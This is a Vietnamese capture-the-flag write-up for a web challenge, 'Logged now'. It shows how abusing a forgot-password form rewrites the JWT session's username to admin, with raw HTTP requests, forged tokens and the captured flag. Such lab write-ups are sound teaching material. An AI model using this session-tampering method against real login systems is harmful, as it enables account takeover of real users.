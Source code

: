 # Logged now

Address: http://172.104.49.143:1579/

Try to logging in 
![image](https://user-images.githubusercontent.com/93431512/193451751-3379e6ea-b3fe-448a-ad89-14415a6897dd.png)

Check page source ta thấy
![image](https://user-images.githubusercontent.com/93431512/193451781-db9a4f24-098e-4fd0-8ec7-25fa7c387268.png)

Đăng nhập acc `test/test`
![image](https://user-images.githubusercontent.com/93431512/193451798-5c2f3a3f-3572-4b56-8fc2-51b3ddce848c.png)

Check history ta có

![image](https://user-images.githubusercontent.com/93431512/193451827-eb16dc00-f196-4d6a-b5f2-742409f421ef.png)

Lại có JWT rồi kìa :) Dùng token.dev nhé
![image](https://user-images.githubusercontent.com/93431512/193451874-f8e0e42b-a070-41c7-8c5d-3323dc6a8c9d.png)

Mục tiêu là sẽ đổi `username` thành `admin` 

Check tiếp JWT tiếp theo
![image](https://user-images.githubusercontent.com/93431512/193452003-22898fd3-81ba-4edf-ac1b-18c0af39f2c8.png)

Đăng xuất nào...

Thử tính năng `forgot password`

![image](https://user-images.githubusercontent.com/93431512/193452052-0071c58c-3805-4f14-95d7-3f7b281e730a.png)

Khi submit thì nó tạo ra lỗi nhưng mà khi check Token nó vẫn thay đổi
![image](https://user-images.githubusercontent.com/93431512/193452060-1054cd5e-1ba5-4791-b181-0d6000a3246f.png)
Khi đăng xuất
![image](https://user-images.githubusercontent.com/93431512/193452100-3bb91cfa-396a-482c-8425-b94e3a4e0b2d.png)
Khi submit
![image](https://user-images.githubusercontent.com/93431512/193452136-65c0f993-c749-4e8f-a3bb-3aae2e4c1cd4.png)

Khi submit ta thấy Token cũng bị thay đổi, có vẻ như là username sẽ bị thay đổi từ tính năng này, cái ta cần là `username = admin` và `islogged = True`, ta có thể dựa vào acc test để lấy `islogged = True` và dùng `forgot password` để lấy `username` mới 

```http
POST /forgotpassword HTTP/1.1
Host: 172.104.49.143:1579
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.104.49.143:1579
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.104.49.143:1579/forgotpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc2xvZ2dlZCI6dHJ1ZX0.Wjx11deR5S7aTH2Sdruo0t0CVQTIJV7wGhLIYPRFlOY
Connection: close

username=admin
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 02 Oct 2022 11:43:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1241
Connection: close
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNsb2dnZWQiOnRydWV9.sYB9cy-O6WDAfSEpF7dL5wTzmlejiR0xrI5ymMbsTWw; Path=/
....
```

Check token mới, mì ăn liền =)))
![image](https://user-images.githubusercontent.com/93431512/193452276-209469ef-f50a-4ac6-b391-941f1214a507.png)

```http
GET /info HTTP/1.1
Host: 172.104.49.143:1579
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNsb2dnZWQiOnRydWV9.sYB9cy-O6WDAfSEpF7dL5wTzmlejiR0xrI5ymMbsTWw
Connection: close
```
Và ta có flag: `Flag{uAsNp2OK2a3DBMXYR!i#}`
        




